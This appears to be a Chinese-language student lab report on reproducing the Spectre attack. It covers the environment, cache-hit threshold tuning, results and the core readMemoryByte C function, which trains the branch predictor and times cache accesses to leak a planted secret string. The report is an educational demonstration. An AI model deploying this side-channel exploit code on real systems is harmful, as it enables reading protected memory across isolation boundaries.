 # Exp6 **微处理器安全漏洞** Spectre

## 环境设置

本实验的环境设置为Ubuntu 20.04 LTS, gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0

## 关键步骤

参考Spectre的原始论文https://ieeexplore.ieee.org/abstract/document/8835233，实现C代码。

储存在内存中的机密信息对应于代码中的 `secret` 数组储存的信息。

## 影响因素分析

该代码中的影响因素有 `Threshold` 对应于代码中的 `CACHE_HIT_THRESHOLD` ，以及不同操作的重复次数。如整体的重复次数设置为 `1000` 次。

## 实验结果

在 `secret` 中储存的敏感数据为 `"The Magic Words are Squeamish Ossifrage."`

运行代码后可得到如下结果：

![image-20240629143750595](/Users/fangkechen/GitHub/CyberSecurityExp/6/assets/image-20240629143750595.png)

和预期一致，的确得到了敏感数据。

## 关键源代码

关键源代码为其中的 `readMemoryByte` 函数，用以敏感数据的某个字节。

```C
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {
	static int results[256];
	int tries, i, j, k, mix_i, junk = 0; size_t training_x, x;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--) {
		for (i = 0; i < 256; i++)
			_mm_clflush(&array2[i * 512]);

		training_x = tries % array1_size;
		for (j = 29; j >= 0; j--) {
			_mm_clflush(&array1_size);
			for (volatile int z=0;z<100;z++){
			}

			x=((j%6)-1)&~0xFFFF;
			x=(x|(x>>16));
			x = training_x ^ (x & (malicious_x ^ training_x));

			victim_function(x);
		}

		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255;
			addr = &array2[mix_i * 512];
			time1 = __rdtscp(&junk);
			junk = *addr;
			time2 = __rdtscp(&junk) - time1;
			if (time2 <= CACHE_HIT_THRESHOLD &&
				mix_i != array1[tries % array1_size])
			results[mix_i]++;
		}

		j=k=-1;
		for (i=0;i<256;i++) {
			if (j<0 || results[i] >= results[j]) {
				k=j;
				j=i;
			}
			else if (k < 0 || results[i] >= results[k]) {
				k=i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break;
	}
	results[0] ^= junk;
	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}
```